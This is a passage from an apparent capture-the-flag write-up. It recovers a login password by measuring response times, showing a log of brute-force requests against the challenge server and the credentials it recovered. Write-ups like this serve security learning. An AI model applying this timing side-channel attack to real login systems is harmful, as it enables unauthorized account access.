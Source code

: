 Similarly, we see that for length of 20, it incurs the most time for the response. As such, we know the password length is 20.

Then with the password length, we can perform the same binary search,
```
...
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i3v v 1.669158
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i3w w 1.721742
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i3x x 1.676561
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i3y y 1.682078
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i3z z 1.67329
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i3A A 1.669678
...
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i35 5 1.670786
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i36 6 1.672602
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i37 7 1.673853
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i38 8 1.669289
http://157.245.52.169:31121/flag?username=0p3nr4leaf&password=r1g3boj8455871326i39 9 1.67153
Password is r1g3boj8455871326i3w
Final Credentials
0p3nr4leaf:r1g3boj8455871326i3w
```

And after an extremely painful amount of time, we have the password `r1g3boj8455871326i3w`.

> For the full exploit script, refer to the `Exploit Script` section.

With the credentials, we can login into the application's portal, giving us the flag!
![](images/Pasted%20image%2020221204221521.png)
